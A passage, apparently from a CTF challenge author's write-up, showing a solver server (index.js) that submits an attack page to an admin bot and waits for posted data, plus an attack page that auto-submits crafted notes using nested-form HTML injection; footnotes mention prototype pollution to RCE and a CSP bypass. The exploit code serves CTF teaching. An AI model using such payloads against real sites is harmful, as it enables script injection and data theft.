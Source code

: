 ```javascript title="index.js"
    }),
  }).then((r) => r.text());
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const html = await fs.readFile("index.html");
    return reply.type("text/html; charset=utf-8").send(html);
  });

  fastify.post("/", async (req, reply) => {
    console.log(req.body);
    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err.toString());

      await sleep(3 * 1000);
      await reportUrl(
        `${ATTACK_BASE_URL}?${new URLSearchParams({
          baseUrl: "http://localhost:3000",
        })}`
      );

      await sleep(20 * 1000);
      fail("Failed");
    }
  );
};
start();
```

```html title="index.html"
<body>
  <script>
    const params = new URLSearchParams(location.search);
    const baseUrl = params.get("baseUrl");

    const sleep = async (msec) =>
      new Promise((resolve) => setTimeout(resolve, msec));

    const createNote = (note) => {
      const innerHtml = `
        <form action="${baseUrl}/api/notes/create" method="post" target="_blank">
          <input type="text" name="note">
        </form>
      `;
      document.body.innerHTML += innerHtml;
      const form = document.forms[document.forms.length - 1];
      form.note.value = note;
      form.submit();
    };

    const main = async () => {
      const note1 = `
        <form id="noteTmpl"></form>
        <button name="content" form="noteTmpl">
          <form class="note">
            <input name="setHTML">
          </form>
```

[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell